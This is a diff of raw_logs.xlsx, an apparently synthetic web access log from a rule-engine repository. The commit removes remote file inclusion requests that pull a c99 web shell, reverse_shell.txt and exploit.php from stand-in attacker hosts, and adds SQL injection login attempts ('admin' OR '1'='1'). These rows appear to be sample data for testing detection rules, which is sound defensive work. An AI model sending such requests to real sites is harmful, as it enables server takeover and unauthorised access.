

Before and after one commit to cyberhub2025/Rule-Engine, an Excel workbook: raw_logs.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/raw_logs.xlsx (sheet Sheet1)
+++ b/raw_logs.xlsx (sheet Sheet1)
-A18 (IP): 203.0.113.42
+A18 (IP): 127.0.0.1
-B18 (Date): 31/Mar/2026
+B18 (Date): 12/Apr/2026
-C18 (Time): 03:25:32
+C18 (Time): 23:15:26
-E18 (URL): /modules/load.php?mod=http://evil-domain.com/c99.php
+E18 (URL): /login?username=imon'+OR+'1'%3D'1'&password=12345
-row 59: 203.0.113.42 | 31/Mar/2026 | 03:25:51 | GET | /api/fetch?url=https://raw.githubusercontent.com/payloadbox/command-injection-payload-list/master/README.md | 403
-row 60: 203.0.113.42 | 31/Mar/2026 | 03:27:15 | GET | /template.php?layout=http://evil-domain.com/c99.php | 403
-row 61: 203.0.113.42 | 31/Mar/2026 | 03:28:02 | GET | /modules/load.php?mod=http://10.0.0.5/reverse_shell.txt | 404
-row 62: 203.0.113.42 | 31/Mar/2026 | 03:29:25 | GET | /modules/load.php?mod=http://evil-domain.com/c99.php%00 | 403
-row 63: 203.0.113.42 | 31/Mar/2026 | 03:30:01 | GET | /template.php?layout=http://10.0.0.5/reverse_shell.txt | 404
-row 64: 203.0.113.42 | 31/Mar/2026 | 03:31:13 | GET | /api/fetch?url=http://pastebin.com/raw/AbCdEfGh | 403
-row 65: 203.0.113.42 | 31/Mar/2026 | 03:32:11 | GET | /modules/load.php?mod=http://10.0.0.5/reverse_shell.txt | 403
-row 66: 203.0.113.42 | 31/Mar/2026 | 03:33:35 | GET | /content.php?inc=http://evil-domain.com/c99.php | 200
-A19 (IP): 203.0.113.42
+A19 (IP): 127.0.0.1
-B19 (Date): 31/Mar/2026
+B19 (Date): 12/Apr/2026
-C19 (Time): 03:34:19
+C19 (Time): 23:15:40
-E19 (URL): /index.php?page=http://evil-domain.com/c99.php
+E19 (URL): /login?username=admin'+OR+'1'%3D'1'&password=12345
-row 68: 203.0.113.42 | 31/Mar/2026 | 03:34:33 | GET | /template.php?layout=http://evil-domain.com/c99.php | 200
-row 69: 203.0.113.42 | 31/Mar/2026 | 03:34:52 | GET | /api/fetch?url=http://10.0.0.5/reverse_shell.txt | 500
-A20 (IP): 203.0.113.42
+A20 (IP): 127.0.0.1
-B20 (Date): 31/Mar/2026
+B20 (Date): 12/Apr/2026
-C20 (Time): 03:36:12
+C20 (Time): 23:16:24
-E20 (URL): /modules/load.php?mod=ftp://attacker.net/pub/exploit.php
+E20 (URL): /login?username=admin'+OR+'1'%3D'1'&password=1234
-row 71: 203.0.113.42 | 31/Mar/2026 | 03:36:26 | GET | /modules/load.php?mod=http://evil-domain.com/c99.php%00 | 403
-row 72: 203.0.113.42 | 31/Mar/2026 | 03:36:38 | GET | /index.php?page=http://10.0.0.5/reverse_shell.txt | 403
-row 73: 203.0.113.42 | 31/Mar/2026 | 03:37:03 | GET | /modules/load.php?mod=http://pastebin.com/raw/AbCdEfGh | 500
-row 74: 203.0.113.42 | 31/Mar/2026 | 03:38:32 | GET | /content.php?inc=http://pastebin.com/raw/AbCdEfGh | 404
-row 75: 203.0.113.42 | 31/Mar/2026 | 03:39:15 | GET | /content.php?inc=http://10.0.0.5/reverse_shell.txt | 403
-row 76: 203.0.113.42 | 31/Mar/2026 | 03:41:14 | GET | /template.php?layout=https://raw.githubusercontent.com/payloadbox/command-injection-payload-list/master/README.md | 404
```
Also changed, not shown: 12 added rows, 65 removed rows and 64 edited cells elsewhere in this sheet, threat_logs.xlsx, 2 other files.
